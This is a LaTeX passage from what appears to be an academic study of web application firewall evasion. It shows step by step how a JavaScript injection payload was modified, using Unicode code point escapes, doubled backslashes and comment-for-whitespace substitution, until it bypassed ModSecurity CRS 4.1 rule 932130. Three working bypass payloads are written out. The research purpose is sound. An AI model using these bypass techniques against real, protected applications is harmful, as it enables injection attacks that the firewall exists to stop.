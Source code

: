 Evading rule \verb|932130| was possible by using Unicode code point escaping in JavaScript as proposed under Section~\ref{sec:jsescape}. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\u{0024}{s}`'}```
\end{lstlisting}

This made the payload bypass the ModSecurity firewall using \acrshort{crs} 4.1. During validating, the bypassing payload triggered an error when parsing the request body with \verb|JSON.parse()|. A similar case was mentioned under Section~\ref{sec:jsescapesingleiter}. As the Unicode code point escape is used within a string in this payload, percent encoding is not neccessary. Instead, the back-slash in the character sequence \verb|s\u{0024}| was escaped by prepending it with another back-slash. RFC4627: The application/json Media Type for JavaScript Object Notation (JSON) states that in JSON:
\begin{quote}
	there are two-character sequence escape representations of some popular characters.  So, for example, a string containing only a single reverse solidus character may be represented more compactly as \quotes{\textbackslash \textbackslash }. \cite{rfc4627}
\end{quote}

The resulting payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

still bypassed the evaluted firewall configuration. It no longer caused an error during parsind. However, the whitespaces in contained JavaScript statements caused the injected payload to form invalid \acrshort{html} code. This was also observed during the evaluation conducted under Section~\ref{sec:funconstrconbypass}. As such, whitespaces in the payload have been replaced by JavaScript inline comments:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var/**/s/**/=/**/"secret";promp'+'t`s\\u{0024}{s}`'}```
\end{lstlisting}

